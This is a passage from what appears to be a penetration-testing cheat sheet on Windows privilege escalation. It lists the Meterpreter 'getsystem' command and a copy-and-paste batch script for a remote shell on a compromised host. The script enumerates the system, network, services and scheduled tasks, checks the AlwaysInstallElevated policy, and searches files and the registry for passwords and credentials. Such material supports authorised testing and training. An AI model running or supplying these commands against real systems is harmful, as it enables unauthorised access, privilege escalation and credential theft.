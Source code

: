     `whoami`

    `net user "%username%"`

*   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

*   No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).

    Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

         @echo --------- BASIC WINDOWS RECON ---------  > report.txt
         timeout 1
         net config Workstation  >> report.txt
         timeout 1
         systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
         timeout 1
         hostname >> report.txt
         timeout 1
         net users >> report.txt
         timeout 1
         ipconfig /all >> report.txt
         timeout 1
         route print >> report.txt
         timeout 1
         arp -A >> report.txt
         timeout 1
         netstat -ano >> report.txt
         timeout 1
         netsh firewall show state >> report.txt	
         timeout 1
         netsh firewall show config >> report.txt
         timeout 1
         schtasks /query /fo LIST /v >> report.txt
         timeout 1
         tasklist /SVC >> report.txt
         timeout 1
         net start >> report.txt
         timeout 1
         DRIVERQUERY >> report.txt
         timeout 1
         reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
         timeout 1
         findstr /si password *.xml *.ini *.txt >> report.txt
         timeout 1
         reg query HKLM /f password /t REG_SZ /s >> report.txt
         timeout 1
         reg query HKCU /f password /t REG_SZ /s >> report.txt 
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1